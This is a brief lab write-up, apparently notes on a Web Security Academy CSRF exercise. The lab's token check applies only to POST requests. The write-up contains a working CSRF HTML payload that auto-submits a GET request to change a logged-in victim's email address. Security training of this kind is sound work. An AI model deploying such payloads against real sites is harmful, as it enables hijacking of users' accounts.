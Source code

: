 # Lab: CSRF where token validation depends on request method

This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

## CSRF
* 題目說改一下 requests method 可能會有不一樣的地方，所以用 post 跟 get 各試了一次，發現用 get 送 data 不會驗證 CSRF token 
```
<form method="get" action="https://ac8c1f581f436adfc01e670c0004007f.web-security-academy.net/my-account/change-email">
<input name="email" value="exploit@email.com" type="hidden">
<input name="csrf" value="ioZiPM379q17NVPDQMbP4neqW8YdGlxT" type="hidden">
</form>
<script>
document.forms[0].submit();
</script>
```
